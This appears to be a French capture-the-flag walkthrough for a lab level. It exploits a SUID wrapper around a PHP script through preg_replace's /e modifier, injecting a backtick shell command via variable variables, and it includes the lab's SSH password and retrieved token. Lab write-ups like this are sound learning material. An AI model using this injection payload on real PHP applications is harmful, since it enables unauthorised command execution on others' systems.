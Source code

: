 # Level06

Connectez-vous en tant que `level06`.

    $ ssh 192.168.1.124 -p 4242 -l level06
    level06@192.168.1.124's password: viuaaale9huek52boumoomioc
    
 ---

Un script PHP et un exécutable `SUID` se trouvent dans le répertoire personnel.

    $ ls -l
    12 au total
    -rwsr-x---+ 1 flag06 level06 7503 30 août 2015 level06
    -rwxr-x--- 1 flag06 level06 356 5 mars 2016 level06.php

    $ ./level06
    Avertissement PHP : file_get_contents() : le nom de fichier ne peut pas être vide dans /home/user/level06/level06.php à la ligne 4
    
    $ echo 'Hello !' > /tmp/hello

    $ ./level06 /tmp/hello
    Hello !

`file_get_contents` - lit le fichier entier dans une chaîne.

`preg_replace` - l'utilisation avec le modificateur `/e` était assez courante parmi les scripts, les applications et les interfaces PHP jusqu'à il y a quelques années.

Il est possible d'exécuter le shell en PHP avec des backticks.

En utilisant des [variables variables](https://www.php.net/manual/en/language.variables.variable.php), une erreur peut être générée qui affichera le flag.

    $ echo '[x ${`getflag`}]' > /tmp/flag06

    $ ./level06 /tmp/flag06
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
     in /home/user/level06/level06.php(4) : regexp code on line 1

PHP a évalué `getflag` puis a essayé d'imprimer la variable, mais comme il n'était pas défini, il affiche une erreur.
